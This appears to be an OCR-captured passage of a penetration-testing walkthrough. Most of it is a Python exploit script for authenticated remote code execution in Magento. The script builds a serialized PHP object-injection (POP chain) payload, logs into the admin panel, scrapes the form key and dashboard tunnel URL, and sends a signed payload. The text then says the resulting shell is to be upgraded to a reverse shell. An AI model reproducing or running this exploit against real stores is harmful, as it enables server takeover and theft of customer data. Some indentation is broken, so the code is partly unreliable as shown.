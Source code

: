     # POP chain to pivot into call_user_exec
    payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
              '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
              'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
              'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
              '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
              ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                         len(arg), arg)
    # Setup the mechanize browser and options
    br = mechanize.Browser()
    #br.set_proxies({"http": "localhost:8080"})
    br.set_handle_robots(False)
    
    request = br.open(target)
    
    br.select_form(nr=0)
    # br.form.new_control('text', 'login[username]', {'value': username})  # Comment that
    br.form.fixup()
    br['login[username]'] = username
    br['login[password]'] = password
    
    br.method = "POST"
    request = br.submit()
    content = request.read()
    
    url = re.search("ajaxBlockUrl = \'(.*)\'", content)
    url = url.group(1)
    key = re.search("var FORM_KEY = '(.*)'", content)
    key = key.group(1)
    
    request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
    tunnel = re.search("src=\"(.*)\?ga=", request.read())
    tunnel = tunnel.group(1)
    
    payload = base64.b64encode(payload)
    gh = md5(payload + install_date).hexdigest()
    
    exploit = tunnel + '?ga=' + payload + '&h=' + gh
    
    try:
        request = br.open(exploit)
    except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()

we will get an unstable shell that we should immediately change to a reverse shell.

<span class="underline">Listner Kali</span>
